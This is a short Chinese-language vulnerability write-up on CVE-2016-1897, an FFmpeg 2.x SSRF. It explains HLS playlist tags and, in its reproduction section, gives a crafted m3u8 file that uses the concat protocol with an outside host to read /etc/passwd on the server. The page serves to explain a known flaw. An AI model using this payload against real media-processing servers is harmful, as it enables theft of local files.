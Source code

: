```yaml
---
title: "（CVE-2016-1897）Ffmpeg ssrf"
id: zhfly2938
---
```


# （CVE-2016-1897）Ffmpeg ssrf

## 一、漏洞简介

CVE-2016-1897只能读取文件的第一行

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

## 二、漏洞影响

FFmpeg 2.x

## 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对concat的支持(https://www.0-sec.org/ffmpeg-protocols.html#concat )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://dx.su/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST 
```